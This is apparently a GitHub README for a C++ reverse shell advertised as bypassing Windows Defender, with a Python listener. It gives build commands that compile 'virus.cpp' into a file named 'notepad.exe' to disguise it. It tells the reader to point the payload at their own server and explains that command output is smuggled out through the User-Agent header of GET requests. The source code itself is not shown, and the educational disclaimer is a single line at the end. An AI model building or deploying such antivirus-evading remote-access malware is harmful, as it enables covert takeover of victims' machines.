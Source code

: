 # Interative ReverseShell bypass Microsoft Window Defender

A simple ReverseShell written in C++, and listening server written in Python

## I. Installation

- ***Mingw***:
    *note that I try to use Microsoft Visual Studio to build exe but I got a lot of errors with lib and header file, you can use MVS if you want, or install Mingw like me*

```bash
sudo apt-get update
sudo apt-get install mingw-w64 -y
```
## II. Usage
### 1. Build virus
***Note:*** *Inspect source in virus.cpp and change sourceip and port to your remote server that hosts server.py (receive shell from victim) then build it using mingw*
```bash
x86_64-w64-mingw32-g++ -o notepad.exe virus.cpp  -static-libgcc -static-libstdc++ -lwininet
```

### 2. Run listening server
***Note:*** *This server.py will listen incomming GET request, extract Agent header and decode to human readable data (result returns from command)*
```python
python3 server.py
```

Run notepad.exe connection will be established to remote server, run any command.

**Server**:

![plot](./images/serverpy.png)

**Client**

![plot](./images/viruscpp.png)

## III. Contributing

- Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.
- Please make sure to update tests as appropriate.
## IV. Disclaimer
- There is no clean code, no penetration test provided, this repo is only for educational purposes. If you got trouble with this, please contact me.